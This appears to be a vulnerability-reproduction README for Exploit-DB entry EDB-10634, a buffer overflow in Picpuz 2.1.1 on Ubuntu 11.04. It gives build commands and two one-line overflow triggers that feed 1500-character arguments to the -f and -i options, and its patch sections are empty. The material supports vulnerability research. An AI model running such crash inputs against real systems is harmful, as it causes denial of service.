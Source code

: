 # EDB-10634

## Experiment Environment

Ubuntu 11.04

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/EDB-10634/picpuz-2.1.1.tar.gz
tar -xvf picpuz-2.1.1.tar.gz
cd picpuz-2.1.1
make 
```

## Problems in Installation & Configuration


## How to trigger vulnerability

Image filename overflow:
```
./picpuz -f $(python -c 'print "A"*1500')
```
 
Directory filename overflow:
```
./picpuz -i $(python -c 'print "A"*1500')
```

## PoCs

[Picpuz 2.1.1 - Buffer Overflow (Denial of Service) (PoC)](https://www.exploit-db.com/exploits/10634/)

## Vulnerability Patch

### Root Cause

### Stack Trace

### Patch

## References
